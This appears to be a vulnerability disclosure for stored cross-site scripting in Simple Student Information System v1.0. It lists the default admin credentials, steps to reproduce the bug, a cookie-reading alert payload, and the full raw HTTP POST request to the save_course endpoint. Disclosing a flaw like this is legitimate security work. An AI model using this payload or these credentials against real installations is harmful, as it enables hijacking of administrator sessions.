 # Simple Student Information System v1.0 has stored cross-site scripting

BUG_Author:wangshiyou

Website Source Code Address:https://www.sourcecodester.com/php/15147/simple-student-information-system-phpoop-free-source-code.html

Vulnerability url: /sis/classes/Master.php?f=save_course

POST form-data parameter name exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/sis/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on "Course List" and Click on "+ Add New Course".

3.Put Payload into the Course parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/sssddc11/bug_report/blob/master/xss1.png)

4.Click on Save

Transmission packet

```
POST /sis/classes/Master.php?f=save_course HTTP/1.1
Host: localhost
Content-Length: 557
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvHu24DiYwx7RUiq4
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/sis/admin/?page=courses
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=uliaml90ktvaestc2mev4vp09m
Connection: close

------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="department_id"

2
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="description"

a
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryvHu24DiYwx7RUiq4--
```

5.Payload will trigger when a user visits on http://localhost/sis/admin/?page=courses

![image](https://github.com/sssddc11/bug_report/blob/master/xss2.png)
